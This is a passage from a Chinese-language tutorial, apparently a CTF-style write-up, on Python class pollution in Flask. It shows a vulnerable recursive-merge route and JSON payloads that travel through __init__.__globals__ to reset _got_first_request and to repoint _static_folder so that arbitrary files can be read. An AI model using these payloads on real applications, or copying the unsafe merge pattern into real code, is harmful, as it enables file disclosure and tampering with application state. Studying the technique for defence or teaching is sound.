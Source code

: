 ```plain
    global flag
    setattr(app, "special", "U_Polluted_It")
    return flag

app.run(host="0.0.0.0")
```

```plain
payload={
    "__init__":{
        "__globals__":{
            "app":{
                "_got_first_request":False
            }
        }
    }
}
```

### \_static\_url\_path:

当python指定了static静态目录以后，我们再进行访问就会定向到static文件夹下面的对应文件而不会存在目录穿梭的漏洞，但是如果我们想要访问其他文件下面的敏感信息，我们就需要污染这个静态目录，让他自动帮我们实现定向

```plain
#static/index.html

<html>
<h1>hello</h1>
<body>    
</body>
</html>
```

```plain
@app.route('/',methods=['POST', 'GET'])
def index():
    if request.data:
        merge(json.loads(request.data), instance)
    return "flag in ./flag but heres only static/index.html"
```

```plain
payload={
    "__init__":{
        "__globals__":{
            "app":{
                "_static_folder":"./"
            }
        }
    }
}
```

### os.path.pardir:
